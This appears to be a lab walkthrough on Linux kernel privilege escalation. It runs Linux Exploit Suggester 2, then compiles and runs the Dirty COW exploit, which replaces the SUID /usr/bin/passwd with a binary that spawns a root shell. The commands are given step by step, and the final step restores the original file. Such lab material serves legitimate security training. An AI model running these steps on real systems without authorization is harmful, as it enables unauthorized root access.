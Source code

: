 Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`

`./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Remember to restore the original **/usr/bin/passwd** file and exit the root shell before continuing!

`mv /tmp/bak /usr/bin/passwd`

`exit`
